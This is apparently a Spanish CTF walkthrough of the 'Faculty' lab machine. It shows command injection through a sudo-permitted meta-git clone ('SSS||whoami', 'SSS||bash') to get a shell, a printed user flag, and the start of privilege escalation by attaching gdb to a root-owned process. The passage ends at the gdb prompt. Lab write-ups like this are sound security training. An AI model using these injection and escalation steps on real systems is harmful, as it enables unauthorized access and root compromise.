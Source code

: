 ```r
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'SSS||whoami'
developer
```
*Vemos que hemos conseguido tener una respuesta...*

```r
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'SSS||bash'
developer@faculty:/tmp$
```
*Vemos que hemos conseguido una bash...*

```R
developer@faculty:~$ cat user.txt
d58b42c7f4f6ad7df6f516b3e6c2ecba
```
*Tenemos la user flag!*

# Escalada de privilegios
*Esta fase va a consistir en pasar de ser un usuario no privilegiado a ser el administrador del sistema aprovechandonos de fallos en la seguridad internos del servidor.*

1. Listar permisos
```r
developer@faculty:~$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
```
*Lo de debug nos llama la atención así que vamos a listar archivos...*

2. Busqueda de recursos con permisos de 1001
```r
developer@faculty:/$ find / -group debug 2>/dev/null
/usr/bin/gdb
```
*Vemos que tenemos un directorio...*

3. Listar permisos del recurso encontrado.
```r
developer@faculty:/$ ls -l /usr/bin/gdb
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb
```
*Vemos que tenemos permiso de ejecución...*

4. Procesos cuyo propietario es root...
```r
developer@faculty:/$ ps -faux | grep "root"
root  692  0.0  0.9  26896 18208 ?   Ss   19:08   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
```
*Este nos llama la atención...*

5. gdb
```r
developer@faculty:/$ gdb -p 692
(gdb)
```
*Nos conectamos al gdb*
